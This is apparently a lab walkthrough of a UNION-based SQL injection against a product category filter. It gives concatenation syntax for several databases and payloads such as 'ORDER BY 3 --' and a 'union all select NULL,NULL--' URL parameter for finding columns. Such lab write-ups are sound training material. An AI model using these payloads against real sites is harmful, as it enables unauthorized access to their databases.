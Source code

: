 ![image](https://github.com/user-attachments/assets/99538ee1-8eed-43ea-9945-d9eaa34b3a57)

### Solution

## String Concatenation in SQL Databases

You can concatenate multiple strings to make a single string in SQL. The syntax varies by database system:

| Database    | Command                                               | Notes                          |
|-------------|------------------------------------------------------|--------------------------------|
| **Microsoft** (SQL Server) | `'foo'+'bar'`                                  | Uses + operator               |
| **PostgreSQL** | `'foo'||'bar'`                                   | Uses || operator (no space)     |
| **MySQL**      | `'foo' 'bar'`<br>`CONCAT('foo','bar')`         | Space between strings or CONCAT function |
| **Oracle**     | `'foo'||'bar'`                                   | Uses || operator with spaces   |





Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Determine the number of columns -

**ORDER BY 3** returns an error, which means there are 2 columns that is retreived by the web app from the db.


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://github.com/user-attachments/assets/430f6ab1-8857-4b02-852d-980bb0f6e4b3)


#### Determine which columns contain text data -

Also, that there are 2 columns returned by the query and we can do check which column return 200 when we insert text on it,So that cotains text:

```sql
/filter?category=Gifts'+union+all+select+NULL,NULL--

```

![image](https://github.com/user-attachments/assets/d65bf69d-4374-4fe5-9d5a-99ef1e28d0b6)

 2 columns only contains text

![image](https://github.com/user-attachments/assets/6a5842b3-ba38-49b3-ae0b-1ce8bfde4229)
